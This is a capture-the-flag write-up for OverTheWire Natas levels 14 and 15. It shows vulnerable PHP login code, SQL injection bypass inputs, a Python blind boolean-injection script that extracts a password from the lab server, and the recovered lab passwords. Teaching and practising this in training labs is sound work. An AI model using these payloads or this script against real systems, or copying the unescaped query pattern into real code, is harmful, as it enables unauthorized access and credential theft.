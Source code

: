 Starting this challenge, we'll be doing some fun SQL injection challenges. You
may want to read about SQL queries, Regex and Python for easier understanding.  

## Natas 14

Taking a look at the source code shows how the query is generated:  
  

    
    
    <?  
    if(array_key_exists("username", $_REQUEST)) {  
        $link = mysql_connect('localhost', 'natas14', '<censored>');  
        mysql_select_db('natas14', $link);  
          
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";  
        if(array_key_exists("debug", $_GET)) {  
            echo "Executing query: $query<br>";  
        }  
      
        if(mysql_num_rows(mysql_query($query, $link)) > 0) {  
                echo "Successful login! The password for natas15 is <censored><br>";  
        } else {  
                echo "Access denied!<br>";  
        }  
        mysql_close($link);  
    } else {  
    ?>   
    

  
**Query: **SELECT * from users where username="_&lt;user&gt;_" and password="_&lt;password&gt;_"  
  
You'll notice that the user input is not being filtered, which means we can
use escape characters to make the query act differently than it should be.
Since we're trying to log in as Natas15, let's manipulate the query in a way
that will bypass checking for a valid password.  
All the following combinations work (among many others):  

  * User: natas15" #  
Pass: &lt;empty&gt;  
Query: SELECT * from users where username="**natas15" # **_and password =
""_**  
**
  

  * User: " or 1 = 1 #  
Pass: &lt;empty&gt;  
Query: SELECT * from users where username="**" or 1 = 1 #** _and password =
""_

  

  * User: natas15  
Pass: " or "1"="1  
Query: SELECT * from users where username="**natas15**" and password = "**" or
"1" = "1**"

  
_Successful login! The password for natas15 is
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J_  

## Natas 15

    
    
    <?  
      
    /*  
    CREATE TABLE `users` (  
      `username` varchar(64) DEFAULT NULL,  
      `password` varchar(64) DEFAULT NULL  
    );  
    */  
      
    if(array_key_exists("username", $_REQUEST)) {  
        $link = mysql_connect('localhost', 'natas15', '<censored>');  
        mysql_select_db('natas15', $link);  
          
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
        if(array_key_exists("debug", $_GET)) {  
            echo "Executing query: $query<br>";  
        }  
      
        $res = mysql_query($query, $link);  
        if($res) {  
        if(mysql_num_rows($res) > 0) {  
            echo "This user exists.<br>";  
        } else {  
            echo "This user doesn't exist.<br>";  
        }  
        } else {  
            echo "Error in query.<br>";  
        }  
      
        mysql_close($link);  
    } else {  
    ?>   
    

  
In this example we'll be introduced to [blind-based SQL injection](https://www
.exploit-db.com/docs/17397.pdf), more specifically to boolean based one.
Inspecting the source code above shows us that no data from the database is
sent directly to us, instead we get 3 types of responses depending on our
query.  
  
How can we retrieve the password? By asking questions! Like, does the password
contain the letter 'a'? Does the letter 'x' come first?  
  
Python script consists of two steps:  

  1. Find a reduced sample size to bruteforce the password (since the number of valid characters is 62, and the password is only 32 characters long) without caring about position.
  2. Use the smaller set to get the exact word, password is an empty string where you keep looping for the next character, append it to the password and repeat, till you get the 32 characters long password.

  

    
    
    import requests  
    from requests.auth import HTTPBasicAuth  
      
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'  
    filtered = ''  
    passwd = ''  
      
    for char in chars:  
        Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}  
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)  
        if 'exists' in r.text :  
            filtered = filtered + char  
      
    for i in range(0,32):    
        for char in filtered:  
            Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}  
            r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = Data)  
            if 'exists' in r.text :  
                passwd = passwd + char  
                print(passwd)  
                break  
    

  
If we didn't reduce our sample size, code complexity would've been O(32 ^ 62),
instead it became O(62 + 32^25), which is much, much faster.  
  
Output:  
  

    
    
    W  
    Wa  
    WaI  
    WaIH  
    WaIHE  
    WaIHEa  
    WaIHEac  
    WaIHEacj  
    WaIHEacj6  
    WaIHEacj63  
    WaIHEacj63w  
    WaIHEacj63wn  
    WaIHEacj63wnN  
    WaIHEacj63wnNI  
    WaIHEacj63wnNIB  
    WaIHEacj63wnNIBR  
    WaIHEacj63wnNIBRO  
    WaIHEacj63wnNIBROH  
    WaIHEacj63wnNIBROHe  
    WaIHEacj63wnNIBROHeq  
    WaIHEacj63wnNIBROHeqi  
    WaIHEacj63wnNIBROHeqi3  
    WaIHEacj63wnNIBROHeqi3p  
    WaIHEacj63wnNIBROHeqi3p9  
    WaIHEacj63wnNIBROHeqi3p9t  
    WaIHEacj63wnNIBROHeqi3p9t0  
    WaIHEacj63wnNIBROHeqi3p9t0m  
    WaIHEacj63wnNIBROHeqi3p9t0m5  
    WaIHEacj63wnNIBROHeqi3p9t0m5n  
    WaIHEacj63wnNIBROHeqi3p9t0m5nh  
    WaIHEacj63wnNIBROHeqi3p9t0m5nhm  
    WaIHEacj63wnNIBROHeqi3p9t0m5nhmh  
    

  
`  
`Natas16 password is WaIHEacj63wnNIBROHeqi3p9t0m5nhmh  
  
_Currently listening to [Sirenia - In a
Manica](https://www.youtube.com/watch?v=v1Umdmtg-D8)_

